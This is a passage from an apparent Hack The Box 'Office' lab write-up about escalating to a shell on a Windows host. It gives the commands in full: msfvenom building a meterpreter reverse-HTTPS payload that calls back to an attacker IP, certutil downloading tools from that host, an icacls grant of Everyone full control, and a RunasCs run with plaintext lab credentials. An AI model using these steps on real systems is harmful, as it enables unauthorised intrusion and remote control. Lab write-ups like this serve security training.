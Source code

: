 
```shell
msfvenom -p windows/x64/meterpreter/reverse_https lhost=10.10.14.69 lport=4445 -f exe -o revshmet.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 609 bytes
Final size of exe file: 7168 bytes
Saved as: revshmet.exe
```


- He uploaded the files to the writable directory `c:\windows\tasks` using `certutil.exe` and granted `Full` privileges to the `Everyone` group for the executable `revshmet.exe`.

```shell
PS C:\windows\tasks> certutil.exe -f -urlcache -split http://10.10.14.69/RunasCs.exe
PS C:\windows\tasks> certutil.exe -f -urlcache -split http://10.10.14.69/revshmet.exe
```


```shell
PS C:\windows\tasks> dir
    Directory: C:\windows\tasks
Mode                 LastWriteTime         Length Name                                                              
----                 -------------         ------ ----                                                              
                                                        
-a----         6/19/2024   8:50 PM           7168 revshmet.exe                                                      
-a----         6/19/2024   8:48 PM          51712 RunasCs.exe  
```



>Comments: It is important to grant `Full` privileges to the `Everyone` group for the executable `revshmet.exe` so that `RunasCs.exe` can execute it correctly.
>
```shell
cmd /c "icacls C:\windows\tasks\revshmet.exe  /grant Everyone:(F)"
```
>
>![](/assets/images/HTB-Writeup-Office/Pasted image 20240619163017.png)
{: .prompt-info }

- With all that done, he executed `RunasCs.exe`, received the reverse shell, and was able to read `user.txt`.

```shell
c:\windows\tasks\RunasCs.exe tstark playboy69 c:\windows\tasks\revshmet.exe
```

![](/assets/images/HTB-Writeup-Office/Pasted image 20240619163204.png)

## Shell as "ppotts" user 
- After extensive enumeration, the pentester noticed that port `8083` was `LISTENING` on all interfaces, but this was not reported in the `nmap` scan, likely due to a firewall rule. Therefore, he decided to forward this port using `chisel.exe`.
